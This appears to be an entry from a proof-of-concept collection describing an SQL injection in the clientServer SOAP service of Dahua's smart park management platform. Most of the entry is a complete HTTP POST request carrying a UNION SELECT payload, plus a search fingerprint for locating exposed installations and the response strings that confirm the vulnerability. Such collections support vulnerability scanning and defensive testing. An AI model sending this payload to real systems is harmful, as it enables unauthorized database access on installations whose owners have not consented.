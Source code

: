 ﻿# 大华智慧园区综合管理平台clientServerSQL注入漏洞

> 更新时间：2024-03-21

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：app="dahua-智慧园区综合管理平台"

> 验证脚本：HTTP

```
POST /portal/services/clientServer HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:cli="http://clientServer.webservice.dssc.dahua.com">
  <soapenv:Header/>
  <soapenv:Body>
  <cli:getGroupInfoListByGroupId>
    <!--type: string-->
      <arg0>-5398) UNION ALL SELECT 5336,5336,5336,5336,md5(1)-- -</arg0>
    <!--type: long-->
    <arg1>10</arg1>
    </cli:getGroupInfoListByGroupId>
    </soapenv:Body>
  </soap:Envelope>
```

> 响应代码特征：200

> 响应内容特征：b923820dcc

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台clientServerSQL注入漏洞.poc

